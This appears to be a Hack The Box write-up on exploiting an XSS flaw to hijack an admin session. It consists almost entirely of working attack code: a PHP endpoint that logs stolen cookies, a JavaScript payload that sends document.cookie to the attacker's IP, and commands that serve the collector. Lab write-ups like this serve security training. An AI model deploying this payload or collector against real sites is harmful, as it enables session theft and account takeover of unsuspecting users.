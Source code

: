 # HTB XSS and Session Hijacking Writeup

This repository documents identifying a vulnerable input field via XSS and performing session hijacking to steal the admin's cookie and retrieve the flag from `login.php`.

- **Attacker IP:** `10.10.14.179`
- **Target IP:** `10.129.31.89`
- **Date:** April 11, 2025

## Steps

### 1. Set Up Attacker Server
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
```
## index.php 
```bash
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
## script.js
```bash
new Image().src='http://10.10.14.179/index.php?c='+document.cookie;
```
## cookies.txt
```bash
sudo touch cookies.txt
sudo chmod 666 cookies.txt
```
## Run server
```bash
sudo php -S 0.0.0.0:80
```
